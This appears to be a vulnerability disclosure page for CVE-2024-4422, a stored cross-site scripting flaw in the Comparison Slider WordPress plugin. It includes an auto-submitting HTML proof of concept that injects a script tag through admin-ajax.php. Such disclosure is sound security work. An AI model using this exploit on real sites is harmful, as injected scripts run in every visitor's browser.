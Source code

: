 ```yaml
---
layout: page
title: CVE-2024-4422
subtitle: Comparison Slider <= 1.0.5 - Authenticated (Subscriber+) Stored Cross-Site Scripting
---
```

## Description
The Comparison Slider plugin for WordPress is vulnerable to Stored Cross-Site Scripting via the slider title parameter in all versions up to, and including, 1.0.5 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with subscriber access and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page.

## Severity
  6.4 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:L/I:L/A:N)

## Affected Version
    <= 1.0.5

## PoC :
```
Use this csrf using subscriber account.

<html>
  <!-- Made by eneriiiii<3 / https://x.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="mod" value="comparison" />
      <input type="hidden" name="action" value="updateSettingFromTpl" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="title" value="&lt;script&gt;alert&#40;&apos;eneriiii&lt;3&apos;&#41;&lt;&#47;script&gt;" />
      <input type="hidden" name="pl" value="ics" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/comparison-slider/comparison-slider-105-authenticated-subscriber-stored-cross-site-scripting
- https://www.cve.org/CVERecord?id=CVE-2024-4422





